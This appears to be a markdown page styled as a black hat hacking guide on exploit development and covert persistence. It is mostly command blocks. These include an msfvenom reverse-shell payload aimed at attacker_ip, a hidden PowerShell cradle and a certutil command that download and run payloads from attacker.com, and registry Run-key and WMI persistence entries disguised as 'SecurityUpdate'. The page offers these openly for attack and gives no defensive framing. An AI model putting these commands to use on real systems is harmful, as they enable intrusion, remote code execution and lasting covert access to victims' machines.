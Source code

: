 # Advanced Black Hat Hacking Techniques

## Overview
This document contains advanced offensive security techniques and black hat methodologies for system compromise, exploitation, and maintaining persistent access. Focus is on attack methodologies rather than defensive measures.

## Advanced Exploitation Techniques

### Zero-Day Exploit Development
**Objective**: Develop custom exploits for unknown vulnerabilities

**Methodology**:
```bash
# Vulnerability research workflow
# 1. Target identification and reconnaissance
nmap -sS -sV -O --script vuln target_range

# 2. Binary analysis and reverse engineering
objdump -d target_binary
gdb target_binary
radare2 target_binary

# 3. Fuzzing for vulnerability discovery
afl-fuzz -i input_dir -o output_dir target_binary @@
boofuzz-cli target_ip target_port

# 4. Exploit development
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f python
```

### Advanced Persistent Threats (APT) Techniques
**Objective**: Establish long-term covert access to target systems

**Techniques**:
```bash
# 1. Fileless malware deployment
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://attacker.com/payload.ps1'))"

# 2. Living off the land techniques
# Use legitimate tools for malicious purposes
wmic process call create "powershell.exe -enc <base64_encoded_payload>"
certutil -urlcache -split -f http://attacker.com/payload.exe payload.exe

# 3. Registry persistence
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "powershell.exe -WindowStyle Hidden -File C:\temp\backdoor.ps1"

# 4. WMI persistence
wmic /namespace:"\\root\subscription" PATH __EventFilter CREATE Name="SecurityUpdate", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System'"
```

